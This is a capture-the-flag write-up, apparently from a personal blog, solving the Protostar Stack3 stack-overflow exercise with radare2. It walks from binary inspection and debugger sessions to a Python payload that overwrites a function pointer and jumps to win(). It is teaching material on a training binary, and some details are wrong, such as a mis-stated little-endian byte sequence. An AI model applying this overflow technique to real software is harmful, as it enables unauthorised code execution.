 ```yaml
---
layout: post
section-type: post
title: Exploiting Protostar Stack3 using radare2
category: buffer_overflow
tags: [ 'buffer_overflow', 'stack_overflow', 'radare2', 'protostar', 'write_up' ]
---
```

# Exploiting Protostar Stack3

[Problem link](https://exploit-exercises.com/protostar/stack3/)

You can check previous problems here :

- [Stack0]({{site.baseurl}}/buffer_overflow/2017/12/16/exploiting_protostar_stack0.html)
- [Stack1]({{site.baseurl}}/buffer_overflow/2017/12/18/exploiting_protostar_stack1.html)
- [Stack2]({{site.baseurl}}/buffer_overflow/2017/12/18/exploiting_protostar_stack2.html)

## Problem source code

{% highlight C %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
{% endhighlight %}

We will work in this problem as we do not have the C source code

## First we want to know more info about the binary

{% highlight shell-session %}
$ rabin2 -I stack3
arch     x86
binsz    23130
bintype  elf
bits     32
canary   false
class    ELF32
crypto   false
endian   little
havecode true
intrp    /lib/ld-linux.so.2
lang     c
linenum  true
lsyms    true
machine  Intel 80386
maxopsz  16
minopsz  1
nx       false
os       linux
pcalign  0
pic      false
relocs   true
relro    no
rpath    NONE
static   false
stripped false
subsys   linux
va       true
{% endhighlight %}

As you can clearly see, our binary is a 32bit ELF file, not stripped, the file isn’t protected with canaries , pic, nx or relro.

## Let's run the app and see it working

{% highlight shell-session %}
$ ./stack3
AAAAAAAAAAAAAAAAAAAAAA...AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
calling function pointer, jumping to 0x41414141
[1]    4676 segmentation fault (core dumped)  ./stack3
{% endhighlight %}

## Let's have a look on what's happening inside the app

We will start the app inside Radare2 and have a look in Visual Mode to try understanding how it's working

{% highlight shell-session %}
$ python -c 'print "A" * 100' > payload.txt
$ cat payload.txt
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
$ vim r2profile.rr2
$ cat r2profile.rr2
#!/usr/bin/rarun2
stdin=./payload.txt
$ r2 -d stack3 -e dbg.profile=r2profile.rr2
Process with PID 5065 started...
= attach 5065 5065
bin.baddr 0x08048000
Using 0x8048000
asm.bits 32
[0xb7fdba30]> aas
[0xb7fdba30]> dcu main
Continue until 0x08048438 using 1 bpsize
hit breakpoint at: 8048438
[0x08048438]> VV
{% endhighlight %}

{% highlight nasm %}
  .----------------------------------------------.
  | [0x8048438] ;[gc]                            |
  |   ;-- main:                                  |
  |   ;-- eip:                                   |
  | (fcn) sym.main 65                            |
  |   sym.main ();                               |
  | ; var int local_4h @ esp+0x4                 |
  | ; var int local_1ch @ esp+0x1c               |
  | ; var int local_5ch @ esp+0x5c               |
  |    ; DATA XREF from 0x08048387 (sym._start)  |
  | push ebp                                     |
  | mov ebp, esp                                 |
  | and esp, 0xfffffff0                          |
  |    ; '`'                                     |
  | sub esp, 0x60                                |
  | mov dword [local_5ch], 0                     |
  |    ; 0x1c                                    |
  |    ; 28                                      |
  | lea eax, dword [local_1ch]                   |
  | mov dword [esp], eax                         |
  | call sym.imp.gets;[ga]                       |
  | cmp dword [local_5ch], 0                     |
  | je 0x8048477;[gb]                            |
  `----------------------------------------------'
{% endhighlight %}

So this is the key line ` je 0x8048477;`, so our main **Goal** is to override `local_5ch` ||  `esp+0x5c` with `0x8048477`

Now we’ll use a tool in radare’s framework called `ragg2`, which allows us to generate a cyclic pattern called [De Bruijn Sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence) and check the exact offset where our payload overrides the buffer.

{% highlight shell-session %}
$ ragg2 -P 100 -r > payload.txt
$ cat payload.txt
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAh
$ r2 -d stack3 -e dbg.profile=r2profile.rr2
Process with PID 7997 started...
= attach 7997 7997
bin.baddr 0x08048000
Using 0x8048000
asm.bits 32
[0xb7fdba30]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
TODO: esil-vm not initialized
[Cannot determine xref search boundariesr references (aar)
[x] Analyze len bytes of instructions for references (aar)
[x] Analyze function calls (aac)
[x] Use -AA or aaaa to perform additional experimental analysis.
[x] Constructing a function name for fcn.* and sym.func.* functions (aan)
= attach 7997 7997
7997
[0xb7fdba30]> dcu main
Continue until 0x08048438 using 1 bpsize
hit breakpoint at: 8048438
[0x08048438]> V
{% endhighlight %}

In visual mode you can move step by step using `S` until you reach the line before `cmp dword [local_5ch], 0`

{% highlight shell-session %}
[0x08048438]> pf ?S @ esp+0x5c
0xbffff62c = 0xbffff62c -> 0x41574141
[0x08048438]> wopO 0x41574141
64
{% endhighlight %}

Now let's create a new payload with the right value of `local_5ch`

{% highlight shell-session %}
$ragg2 -P 64 -r > payload.txt
$python -c 'print "\x5c\x84\x04\x08" + 20 * "B"' >> payload.txt
{% endhighlight %}

{% highlight nasm %}
  .----------------------------------------------------------------.
  | [0x804845c] ;[ge]                                              |
  |      ; 0x8048560                                               |
  |      ; "calling function pointer, jumping to 0x%08x\n"         |

  |    ; [0x5c:4]=-1                                               |
  |    ; '\'                                                       |
  |    ; 92                                                        |
  | mov edx, dword [local_5ch]                                     |
  | mov dword [local_4h], edx                                      |
  | mov dword [esp], eax                                           |
  | call sym.imp.printf;[gd]                                       |
  |    ; [0x5c:4]=-1                                               |
  |    ; '\'                                                       |
  |    ; 92                                                        |
  | mov eax, dword [local_5ch]                                     |
  | call eax                                                       |
  `----------------------------------------------------------------'
{% endhighlight %}

Look at the line `call eax`, we want to get the offset of eax to success the second jump, go step by step unill you reach this line, then

{% highlight shell-session %}
[0x56414155]> wopO eax
60
{% endhighlight %}

Also we want to know the address of 'win' function

{% highlight shell-session %}
[0xb7fdba30]> iE
[Exports]
vaddr=0x08048424 paddr=0x00000424 ord=056 fwd=NONE sz=20 bind=GLOBAL type=FUNC name=win
vaddr=0x08048438 paddr=0x00000438 ord=068 fwd=NONE sz=65 bind=GLOBAL type=FUNC name=main

16 exports
{% endhighlight %}

Now we know that we want to put `0x08048424` in eax

Let's rewrite our payload and exploit the binary ** Notice that we are working with a little indean so `0x8048477` will be `\x77\x84\x04\x80` (Reversed) and `0x08048424` will be `\x24\x84\x04\x08`

{% highlight shell-session %}
$ python -c 'print "A" * 60 + "\x24\x84\x04\x08" + "\x5c\x84\x04\x08" + 20 * "B"' > payload.txt
$ r2 -d stack3 -e dbg.profile=r2profile.rr2
Process with PID 11917 started...
= attach 11917 11917
bin.baddr 0x08048000
Using 0x8048000
asm.bits 32
[0xb7fdba30]> dc
calling function pointer, jumping to 0x0804845c
calling function pointer, jumping to 0x08048424
code flow successfully changed
child stopped with signal 11
[+] SIGNAL 11 errno=0 addr=0x42424242 code=1 ret=0
[0x42424242]>
{% endhighlight %}

And we did it ;)
